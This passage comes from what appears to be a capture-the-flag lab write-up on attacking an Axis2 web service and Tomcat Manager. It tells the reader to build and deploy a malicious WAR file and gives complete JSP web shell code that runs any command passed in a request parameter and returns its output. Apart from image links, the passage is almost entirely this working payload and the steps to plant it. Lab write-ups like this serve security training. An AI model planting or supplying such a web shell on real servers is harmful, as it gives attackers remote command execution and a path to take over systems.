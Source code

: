 ![](https://github.com/siunam321/CTF-Writeups/blob/main/VulnHub/Pentester-Lab:Axis2-Web-service-and-Tomcat-Manager/images/Pasted%20image%2020231212230807.png)

**Now we can deploy our malicious WAR file!!**

- Create a directory called `webshell`:

![](https://github.com/siunam321/CTF-Writeups/blob/main/VulnHub/Pentester-Lab:Axis2-Web-service-and-Tomcat-Manager/images/Pasted%20image%2020231213010220.png)

- Copy and paste the following JSP webshell code to a file called `index.jsp`:

```java
<%@ page import="java.io.*" %>
<%
   String cmd = request.getParameter("cmd");
   String output = "";
   if(cmd != null) {
      String s = null;
      try {
         Process p = Runtime.getRuntime().exec(cmd,null,null);
         BufferedReader sI = new BufferedReader(new
InputStreamReader(p.getInputStream()));
         while((s = sI.readLine()) != null) { output += s+"\n"; }
      }  catch(IOException e) {   e.printStackTrace();   }
   }
%><%=output %>
```
